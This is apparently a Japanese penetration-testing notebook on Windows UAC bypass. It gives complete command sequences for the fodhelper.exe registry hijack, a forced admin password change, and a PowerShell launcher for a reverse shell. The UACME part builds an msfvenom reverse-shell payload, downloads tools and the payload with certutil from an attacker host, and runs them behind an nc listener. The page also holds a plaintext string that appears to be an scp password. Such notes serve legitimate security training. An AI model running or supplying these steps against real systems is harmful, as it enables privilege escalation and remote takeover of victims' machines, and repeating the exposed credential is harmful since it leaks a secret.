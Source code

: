 # UACByPass

### fodhelper.exe

オペレーティングシステムの言語変更を管理するMicrosoftのサポートアプリケーションであるfodhelper.exeを利用したUACbyPass.

「アプリと機能」のWindows設定画面で「オプション機能の管理」オプションを選択するたびに、このアプリケーションが起動する。

<img src="img/Windows/UACByPass/image-20230106075428758.png" alt="image-20230106075428758" style="zoom:67%;" />

* アプリケーションマニフェスト（プログラム起動時にOSがそのプログラムをどのように処理するかを示す情報を含む XML ファイル）の検査をする

  ```cmd
  cd C:\Tools\privilege_escalation\Sysintern
  sigcheck.exe -a -m C:\Windows\System32\fodhelper.exe
  ```

  ![image-20230106075632722](img/Windows/UACByPass/image-20230106075632722.png)

  ![](img/UACByPass/image-20230106075632722-1673224263122-2.png)

  * administrator アクセストークンが必要
  * autoelevate フラグが true に設定されているため、管理者ユーザーに同意を求めることなく、実行ファイルが自動的に高信頼性に昇格することが可能

* procmon（Sysinternals suite）で「NAME NOT FOUND」のレジストリを調査する

  * procmonを起動したのち、fodhelper.exeを再起動する

  * Filterで絞り込みを行う

    ![image-20230106080656214](img/Windows/UACByPass/image-20230106080656214.png)

    ![](img/UACByPass/image-20230106080656214-1673224302083-5.png)

  * `HKCU:\Software\Classes\ms-settings\shell\open\command`レジストリーキーが存在しないことがわかる。

    ![image-20230106080749582](img/Windows/UACByPass/image-20230106080749582.png)

    ![](img/UACByPass/image-20230106080749582-1673224338455-8.png)

  * `HKCU:\Software\Classes\ms-settings\shell\open\command`レジストリーキーの検索のあと、**HKEY_CLASSES_ROOT**（HKCR）ハイブで同じキーにアクセスし、成功している。

    レジストリーエディターでも確認することができる（regedit)

    ![image-20230106080943088](img/Windows/UACByPass/image-20230106080943088.png)

    ![](img/UACByPass/image-20230106080943088-1673224359152-11.png)
    
    詳細を調べるとDelegateExecuteキーの値を特定のCOMクラスIDに設定したのち(Default)動作を実行するという流れのよう

* HKCUハイブ内のms-settingレジストリキーを登録する

  ```cmd
  REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command
  
  ---
  C:\Tools\privilege_escalation\SysinternalsSuite>REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command
  The operation completed successfully.
  ```

* 次にDelegateExecuteエントリーを追加する

  ```cmd
  REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ
  ```

  * /v：値の名前を指定
  * /t：型を指定

  ![image-20230106081615681](img/Windows/UACByPass/image-20230106081615681.png)

  ![](img/UACByPass/image-20230106081615681-1673224378809-14.png)

* procmonのフィルターを「SUCCESS」に変更する。

  ![image-20230106081707074](img/Windows/UACByPass/image-20230106081707074.png)

  ![](img/UACByPass/image-20230106081707074-1673224399075-17.png)

  （Default)のレジストリーキーが実行されている

* 新しいレジストリー値を指定する

  ```
  REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f
  ```

* レジストリが正しく設定されたことを確認する

  ```
  REG QUERY HKCU\Software\Classes\ms-settings\Shell\Open\command
  ```

  

* 再度fodhelper.exeを実行するとコマンドプロンプトが立ち上がる

  ![image-20230106081939053](img/Windows/UACByPass/image-20230106081939053.png)

  ![](img/UACByPass/image-20230106081939053-1673224430178-20.png)

  パスワード変更もできることを確認する
  
  ```
  net user admin Ev!lpass
  ```
  
* powershellで実行するパターン（リバースシェル実行版）

  ```
  New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
  New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
  Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value "cmd.exe /c start C:\Users\Administrator\rev_1234.exe" -Force
  Start-Process "C:\Windows\System32\fodhelper.exe"
  Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
  ```

  ※リバースシェルの実行時のコマンドの記載に注意

  ```
  msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.131 LPORT=12345 -f exe > rev_12345.exe
  ```

  

### UACME

https://github.com/hfiref0x/UACME

3. UACMeのリポジトリをクーロンする
     * ※masterブランチではなく、v3.2.xのブランチを使用すること

       ![image-20230114124559887](img/UACByPass/image-20230114124559887.png)
       
     * ※Akagi64.exeのコンパイル時はvisual studioのバージョンにあったSDKをプロパティから設定すること
     
       ![image-20230114124611192](img/UACByPass/image-20230114124611192.png)
     
  4. UAC bypass用のリバースシェルを作成する

     ```plaintext
     msfvenom -p windows/x64/shell_reverse_tcp LHOST=172.17.20.12 LPORT=10010 -f exe > rev_10010_iga.exe
     ```
     
  5. Akagi64.exeとリバースシェルを配送する

     ```plaintext
     # kali
     /home/kali/Documents/tuikakensyu
     scp Akagi64.exe  test-student2@172.17.20.12:~/C2Server/igarashi/
     JwErS2wBLpnSr2G6RYR7Gvb9aWMechni
     
     # ws01
     certutil -urlcache -split -f "http://172.17.20.12:10018/Akagi64.exe" C:\tmp\igarashi\Akagi64.exe
     ```

     ```plaintext
     # kali
     scp rev_10010_iga.exe test-student2@172.17.20.12:~/C2Server/igarashi/
     JwErS2wBLpnSr2G6RYR7Gvb9aWMechni
     
     # ws01
     certutil -urlcache -split -f "http://172.17.20.12:10018/rev_10010.exe" C:\tmp\igarashi\rev_10010_iga.exe
     ```
     
  6. UACMeを実行する

     ```plaintext
     # C2Server
     nc -lvnp 10010
     C:\Users\makise\AppData\Roaming>Akagi64_iga.exe 33 C:\Users\makise\AppData\Roaming\rev_10010_iga.exe
     ```
     
  7. 権限昇格できたことを確認する

     ```plaintext
     whoami /all
     ```
     * Mandatory LabelがHighになっていること

     * sedebugprivilegeがついていること



### UAC設定(まだ未完成。詳細はURL参照)

https://book.hacktricks.xyz/windows-hardening/authentication-credentials-uac-and-efs/uac-user-account-control

```cmd
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System
    EnableLUA    REG_DWORD    0x1
```

```cmd
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System
    ConsentPromptBehaviorAdmin    REG_DWORD    0x5
```

